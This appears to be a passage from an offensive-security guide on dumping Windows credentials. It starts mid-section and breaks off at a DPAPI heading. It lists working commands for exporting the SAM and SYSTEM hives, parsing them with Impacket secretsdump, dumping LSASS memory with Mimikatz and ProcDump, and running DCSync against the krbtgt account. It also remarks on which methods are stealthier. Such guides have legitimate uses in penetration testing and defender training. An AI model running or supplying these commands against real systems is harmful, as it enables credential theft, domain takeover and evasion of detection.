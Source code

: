 The **Security Accounts Manager (SAM)** database stores local user password hashes. Combined with the **SYSTEM** hive (used to decrypt them), an attacker can extract NTLM hashes.

```powershell
# Export SAM & SYSTEM registry hives
reg save hklm\sam C:\temp\sam.save
reg save hklm\system C:\temp\system.save
```

Tools like `secretsdump.py` (Impacket) can parse these:

```bash
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

---

### 🧠 2. Dumping LSASS Process Memory

The **Local Security Authority Subsystem Service (LSASS.exe)** holds plaintext creds, NTLM hashes, and Kerberos tickets in memory.

* **With Mimikatz (classic)**:

```cmd
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

* **With ProcDump (stealthier)**:

```cmd
procdump.exe -accepteula -ma lsass.exe C:\temp\lsass.dmp
```

Then parse the dump offline:

```bash
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

---

### 🎭 3. DCSync (No LSASS Dumping Needed)

If you have **Domain Admin or DC replication rights**, you can pull NTLM hashes directly from the Domain Controller using **DCSync**.

```cmd
mimikatz.exe
lsadump::dcsync /domain:corp.local /user:krbtgt
```

This avoids touching LSASS and is stealthier.

---

### 🪙 4. DPAPI Credential Dumping
